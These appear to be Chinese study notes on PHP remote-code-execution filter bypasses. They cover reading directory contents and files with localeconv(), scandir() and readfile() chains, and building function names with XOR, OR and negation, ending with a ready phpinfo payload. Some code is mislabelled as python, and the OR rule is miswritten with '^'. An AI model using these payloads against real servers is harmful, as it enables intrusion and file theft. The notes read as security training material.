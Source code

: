 > https://xz.aliyun.com/news/11688
> 

> https://arsenetang.github.io/2021/07/28/RCE%E7%AF%87%E4%B9%8B%E6%97%A0%E5%AD%97%E6%AF%8D%E6%95%B0%E5%AD%97rce/
> 

> https://xz.aliyun.com/news/11375
> 

> https://www.cnblogs.com/LLeaves/p/13210005.html
> 

> https://blog.csdn.net/qq_38154820/article/details/107171940
> 

### 无参 RCE

- **localeconv()**
    - `localeconv()` 返回包含本地数字及货币格式信息的数组，数组第一项是 `"."`。
    - 使用 `current()` 或 `pos()` 获取数组第一个值：
        
        ```python
        print_r(current(localeconv())); // 输出 .print_r(scandir(current(localeconv()))); // 读取当前目录并打印
        ```
        
    - 如果 `current()` 被过滤，可以使用 `reset()`，返回数组第一个单元的值。
- **读取本地目录文件**
    - `current()`：返回数组中的当前单元。
    - `each()`：返回数组中当前的键/值对并将数组指针向前移动一步。
    - `end()`：将数组的内部指针指向最后一个单元。
    - `next()`：将数组中的内部指针向前移动一位。
    - `prev()`：将数组的内部指针倒回一位。
    - `show_source`、`readfile`、`highlight_file`、`file_get_contents` 等读文件函数。
    - `array_reverse()`：以相反的元素顺序返回数组。
    - 读取数组最后一个文件内容：
        
        ```python
        print_r(readfile(end(scandir(getcwd()))));
        ```
        

### 无数字字母 RCE

当我们想得到`a-z`中某个字母时，就可以找到两个非字母数字的字符，只要他们俩的或结果是这个字母即可

在php中，两个字符进行异或时，会先将字符串转换成ascii码值，再将这个值转换成二进制，然后一位一位的进行按位异或

异或的规则是：`1^1=0,1^0=1,0^1=1,0^0=0`

或的规则是：`1^1=1,1^0=1,0^1=1,0^0=0`

1. **取反**
    
    ```python
    $a = urlencode(~'phpinfo'); // 取反
    echo $a;echo ~urldecode($a); // 再取反
    // %8F%97%8F%96%91%99%90 phpinfo
    // payload: (~%8F%97%8F%96%91%99%90)();
    ```
    